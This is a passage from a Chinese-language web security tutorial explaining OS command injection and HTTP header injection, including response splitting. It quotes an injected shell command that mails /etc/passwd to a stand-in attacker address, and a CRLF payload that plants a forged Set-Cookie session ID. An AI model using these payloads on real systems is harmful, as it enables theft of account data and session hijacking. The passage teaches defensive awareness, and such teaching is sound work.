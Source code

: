 ```
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

攻击者的输入值中含有分号（;）。
这个符号在OS命令中，会被解析为分隔多个执行命令的标记。

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。


### HTTP首部注入攻击

HTTP首部注入攻击(HTTP Header Injection)是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式。

向首部主体内添加内容的攻击称为HTTP响应截断攻击（HTTP Response Splitting Attack)。

如下所示，Web应用有时会把从外部接收到数值，赋给响应首部字段Location 和 Set-Cookie。

```
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345
```

HTTP首部注入可能像这样，通过在某些响应首部字段需要输出值的地方，插入换行发动攻击。

HTTP首部注入攻击有可能会造成以下一些影响。

- 设置任何Cookie信息
- 重定向至任意URL
- 显示任意的主体（HTTP响应截断攻击）
- HTTP首部注入攻击案列

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解HTTP首部注入攻击。

该功能为每个类别都设定了一个类别ID值，一旦选定某类别，就会将该ID值反映在响应内的Location首部字段值内，行如 Location: http://example.com/?cat=101。令浏览器发生重定向跳转。

攻击者以下面的内容代替之前的类别ID后发送请求。

```
101%0D%0ASet-Cookie: +SID=123456789
```

其中，%0D%0A代表HTTP报文中的换行符，紧接着的是可强制将攻击者网站（http://hacker.jp/）的会话ID设置成SID=123456789 的 Set-Cookie 首部字段。

发送该请求之后，假设结果返回以下响应。

```
Location: http://example.com/?cat=101(%0D%0A: 换行符)
Set-Cookie: SID=123456789
```

此刻，首部字段Set-Cookie 已生效，因此攻击者可指定修改任意的Cookie信息。通过和会话固定攻击组合，攻击者可伪装成用户。

攻击者输入的 %0D%0A，原本应该属于首部字段Location的查询值部分，但经过解析后，%0D%0A 变成了换行符，结果插入了新的首部字段。

这样一来，攻击者可以响应中插入任意的首部字段。

- HTTP响应截断攻击

HTTP响应截断攻击是用在HTTP首部注入的一种攻击。
